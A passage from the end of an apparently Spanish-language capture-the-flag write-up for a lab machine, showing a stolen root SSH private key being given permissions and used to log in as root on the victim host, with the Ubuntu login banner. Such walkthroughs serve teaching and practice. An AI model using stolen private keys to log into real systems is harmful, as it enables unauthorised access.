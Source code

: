 ![Write-up Image](images/Screenshot_21.png)

Le damos los permisos necesarios.
```console
$ chmod 600 id_rsa.root 
```

Y ahora podemos conseguir una sesión SSH como `root` en la máquina víctima haciendo uso de esta clave privada.
```console
$ ssh -i id_rsa.root root@10.129.201.7
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon 21 Oct 2024 12:36:44 PM UTC

  System load:           0.0
  Usage of /:            74.1% of 5.08GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             234
  Users logged in:       1
  IPv4 address for eth0: 10.129.201.7
  IPv6 address for eth0: dead:beef::250:56ff:fe94:21ec


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

9 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Oct 11 14:06:59 2024
```